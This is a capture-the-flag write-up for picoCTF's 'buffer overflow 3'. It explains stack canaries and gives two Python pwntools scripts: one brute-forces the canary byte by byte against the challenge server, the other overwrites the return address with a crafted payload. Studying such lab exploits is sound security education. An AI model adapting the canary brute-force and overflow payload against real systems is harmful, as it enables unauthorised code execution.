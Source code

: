 # BUFFER OVERFLOW 3

> This challenge isn't currently available at picoCTF. So I just describe how I had done this challenge.

- This challenge is next level of `buffer overflow 2`, we will know the way bypass the canary protector

> Stack Canaries are a secret value placed on the stack which changes every time the program is started. Prior to a function return, the stack canary is checked and if it appears to be modified, the program exits immeadiately.

- The details of  canary is discussed in [here](https://ctf101.org/binary-exploitation/stack-canaries/)

- Program read the canary from server, and put it in a variable on stack, but the program has buffer overflow vuln, so we can brute the canary from server by brute byte by byte.

- This script will do that stuff.

```python
#! /usr/bin/python2
# filename: brute.py

from pwn import *

offset = 64
payload = b"a"*64
brute = b""

for i in range(1, 5):
    for char in string.printable:
        p = remote("saturn.picoctf.net", 55134)
        brute += char.encode()
        p.sendlineafter(b"> ", str(64+i).encode())
        p.sendlineafter(b"> ", payload+brute)
        output = p.recvall()
        if (b"?" in output):
            break
        else:
            brute = brute[:-1]
print(brute)
```

- When we knew the canary, the challenge become basic buffer overflow.

```python
#! /usr/bin/python2
# filename: exp.py

from pwn import *

p = remote("saturn.picoctf.net", 58930)


offset = b"88"

canary = b"BiRd"   # 4 bytes

padding = b"a"*64  # 64 bytes

padding_after_canary = b"a"*16  #12 bytes

ret = b"\x36\x93\x04\x08"  # 4 bytes

payload = padding + canary + padding_after_canary + ret

p.sendlineafter(b"> ", offset)
p.sendlineafter(b"> ", payload)
output = p.recvall()

print(output)
```